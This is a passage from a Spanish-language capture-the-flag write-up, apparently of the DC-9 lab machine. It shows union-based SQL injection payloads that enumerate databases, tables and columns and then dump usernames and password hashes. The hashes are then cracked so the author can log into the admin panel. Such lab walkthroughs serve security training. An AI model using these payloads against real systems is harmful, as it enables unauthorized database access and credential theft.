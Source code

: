 ```sql
admin' union select 'test',2,3,4,5,6-- -
```

![](https://eidd3.github.io/assets/img/DC9/Untitled3.png)

Ahora que la columna también es formato string, podemos empezar a recuperar datos de otras tablas.

Primero, podemos enumerar las bases de datos.


![](https://eidd3.github.io/assets/img/DC9/Untitled4.png)

Primero vamos a enumerar la base de datos ‘Staff’ que es la que está en uso y después vamos por la de ‘users’.

```sql
admin' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema="Staff"-- -
```

![](https://eidd3.github.io/assets/img/DC9/Untitled5.png)

Ahora podríamos tratar de leer las columnas de la tabla ‘Users’ de la base de datos ‘Staff’.

```sql
admin' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_schema="Staff" and table_name="Users"-- -
```

![](https://eidd3.github.io/assets/img/DC9/Untitled6.png)

Y ahora, con las columnas, podríamos tartar de extraer la data de cada una. Aunque las más importantes generalmente son “username” y “password”. 

```sql
admin' union select group_concat(Username,":",Password),2,3,4,5,6 from Users-- -
```

![](https://eidd3.github.io/assets/img/DC9/Untitled7.png)

Ahora tenemos un usuario y un hash de una contraseña. Si la pasamos por crackstation nos da una contraseña en texto claro.

![](https://eidd3.github.io/assets/img/DC9/Untitled8.png)

Con esas credenciales, ahora sí, podemos conectarnos en el panel.

![](https://eidd3.github.io/assets/img/DC9/Untitled9.png)

Pero antes de probar nada, queda enumera la base de datos ‘users’.

```sql
admin' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema="users"-- -
```

![](https://eidd3.github.io/assets/img/DC9/Untitled10.png)
